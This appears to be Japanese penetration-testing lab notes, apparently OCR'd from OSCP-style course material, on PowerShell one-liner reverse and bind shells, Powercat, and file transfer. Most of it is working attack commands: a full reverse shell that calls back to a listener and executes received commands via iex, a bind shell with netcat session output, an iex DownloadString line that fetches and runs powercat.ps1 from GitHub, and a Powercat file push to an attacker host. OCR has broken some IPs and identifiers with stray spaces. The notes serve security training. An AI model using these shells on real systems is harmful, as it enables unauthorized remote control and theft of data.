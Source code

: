 ### ワンライナーreverse shell
```
C:\Users\offsec> powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10. 11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.T ext.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII ).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$c lient.Close()"
```

### ワンライナーbind shell
```
C:\Users\offsec> powershell -c "$listener = New-Object System.Net.Sockets.TcpListener( '0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $clie nt.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $byt es.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString ($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$str eam.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Sto p()"

kali@kali:~$ nc -nv 10.11.0.22 443
(UNKNOWN) [10.11.0.22] 443 (https) open
ipconfig
Windows IP Configuration
Ethernet adapter Local Area Connection:
Connection-specific DNS Suffix . :
IPv4 Address. . . . . . . . . . . : 10.11.0.22
Subnet Mask . . . . . . . . . . . : 255.255.255.0
Default Gateway . . . . . . . . . : 10.11.0.1
C:\Users\offsec>
```
## Powercat
PowercatはPowerShell版のNetcat。  
Dot-sourcingを使用して、powercat.ps1スクリプトをロードすることによりPowerShell内で直接powercat関数を使用可能になる。
```
PS C:\Users\Offsec> . .\powercat.ps1
```
攻撃対象となるマシンがインターネットに接続されている場合、githubからダウンロードさせることも可能。
```
 PS C:\Users\Offsec> iex (New-Object System.Net.Webclient).DownloadString('https://raw. githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```
```
PS C:\Users\offsec> powercat -h
powercat - Netcat, The Powershell Version
Github Repository: https://github.com/besimorhino/powercat
```

### ファイル転送
```
受信側
kali@kali:~$ sudo nc -lnvp 443 > receiving_powercat.ps1 listening on [any] 443 ...
connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 63661

送信側
PS C:\Users\Offsec> powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
```
